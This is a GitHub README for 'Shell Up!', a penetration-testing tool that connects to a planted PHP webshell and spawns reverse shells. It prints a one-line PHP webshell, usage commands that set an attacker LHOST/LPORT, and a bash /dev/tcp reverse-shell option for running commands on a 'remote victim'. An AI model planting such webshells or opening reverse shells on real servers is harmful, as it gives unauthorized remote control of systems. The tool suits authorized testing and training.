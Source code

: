 # Shell Up!
A much more lightweight way to connect to a webshell without having to use Burp Suite.
I wrote this not out of necessity, but because I was always considering doing it one day
and given the current COVID-19 climate I finally said screw it and wrote this. In the event
that I obtain code execution on a server and am able to write a quick oneliner webshell that
looks something like this:

`<?php system($_GET['cmd']); ?>`

You can run this script and issue commands as needed. Typically all that is necessary is a
callback via a reverse shell, so this script takes care of all of the overhead necessary.

## Warning
This script is intended for use against **AUTHORIZED PENETRATION TESTING OR EDUCATIONAL USE
ONLY**. It is not meant to be used for illicit intent, and any misuse of this software will
not be the responsibility of the author or any other collaborator. Use this only with the
network or target owner's permission.

## Usage

`shellup.py http://example.com/pwned.php`

This will connect to the endpoint and run an immediate check to determine code execution,
assuming your invoke word is "cmd". If it isn't, you can modify those settings in the REPL:

`shellset invokeword c`

Don't forget to set your LHOST and LPORT properties for reverse shells:

`shellset lhost 10.10.14.2`

`shellset lport 9001`

Something not working right? Run it through a proxy like burpsuite or mitmproxy and find out
what's going on:

`shellset proxy http://localhost:8080`

`whoami`

Or, you could just set these flags up beforehand at the command line:

`shellup.py http://example.com/pwned.php -lh 10.10.14.2 -lp 9001 -i agr0 -p http://localhost:8080`

Once you have your settings configured properly, the "shellup" function allows you to start up a
reverse shell in many different ways. All you need to do is type something like:

`shellup bash`

And it will connect back to you using the /dev/tcp/ method that comes with the bash shell.
Several reverse callback methods have been preloaded into this script, but when all else fails
you can simply issue arbitrary commands via the included REPL. Just type anything and it sends
it to the remote victim, all properly URL encoded!

Hack The Planet!
